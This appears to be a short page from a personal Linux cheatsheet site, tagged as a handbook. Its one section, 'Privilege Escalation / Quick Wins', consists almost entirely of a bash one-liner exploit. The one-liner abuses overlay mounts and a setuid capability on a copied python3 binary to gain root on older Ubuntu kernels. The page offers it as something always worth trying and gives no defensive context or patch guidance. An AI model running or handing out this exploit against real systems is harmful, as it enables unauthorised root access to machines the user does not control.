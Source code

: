```yaml
---
title: "Linux HandBook"
date: 2024-07-31
draft: false
summary: "This is a linux cheatsheet handbook"
tags: ["Linux", "cheatsheet"]
---
```


## Privilege Escalation

### Quick Wins
For older ubuntu kernels, this exploit is always worth trying

```bash
# Quick Wins
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
```
